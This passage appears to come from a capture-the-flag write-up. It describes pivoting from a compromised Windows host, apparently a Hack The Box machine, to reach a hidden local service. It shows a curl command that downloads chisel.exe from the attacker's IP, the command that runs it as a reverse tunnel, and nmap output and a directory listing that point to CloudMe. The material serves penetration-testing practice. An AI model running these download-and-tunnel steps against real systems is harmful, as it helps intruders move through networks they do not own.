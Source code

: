 We have a MySQL server and an unknown service running locally. We may need
some pivoting technique to access it (see [Network pivoting state of the art - Chisel - Reverse remote port forwarding](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)).

[chisel] is one of the best tool out there for pivoting and it has
[a pre-compiled windows binary](https://github.com/jpillora/chisel/releases/download/v1.7.2/chisel_1.7.2_windows_amd64.gz).

```
$ 7z e chisel_1.7.2_windows_amd64.gz
```

Start the server on your machine:

```
$ chisel server -p 8080 --host 10.10.14.188 --reverse -v
2020/11/04 20:55:17 server: Reverse tunnelling enabled
2020/11/04 20:55:17 server: Fingerprint 67:21:79:97:03:c3:a6:2f:bd:d7:b9:c7:d9:1d:35:47
2020/11/04 20:55:17 server: Listening on 10.10.14.188:8080..
```

Upload the binary & execute the client:

```
PS C:\xampp\htdocs\gym\upload> curl http://10.10.14.188:8080/chisel.exe --output noraj.exe
PS C:\xampp\htdocs\gym\upload> .\noraj.exe client -v http://10.10.14.188:8080 R:127.0.0.1:44444:127.0.0.1:8888
2020/11/04 20:05:19 client: Connecting to ws://10.10.14.188:8080
2020/11/04 20:05:20 client: Handshaking...
2020/11/04 20:05:20 client: Fingerprint 1a:a8:a6:b7:c1:58:25:d7:b0:9d:c4:51:4e:8f:b2:5e
2020/11/04 20:05:20 client: Sending config
2020/11/04 20:05:20 client: Connected (Latency 64.5615ms)
2020/11/04 20:05:20 client: tun: SSH connected
```

But we have no clue what service is behind this port:

```
$ nmap 127.0.0.1 -p 44444 -sVC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-04 21:02 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000080s latency).

PORT      STATE SERVICE    VERSION
44444/tcp open  tcpwrapped

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```

The only hint we have is on the Download folder:

```
C:\xampp\htdocs\gym\upload> dir C:\users\shaun\Downloads\

 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,130,439,680 bytes free
```
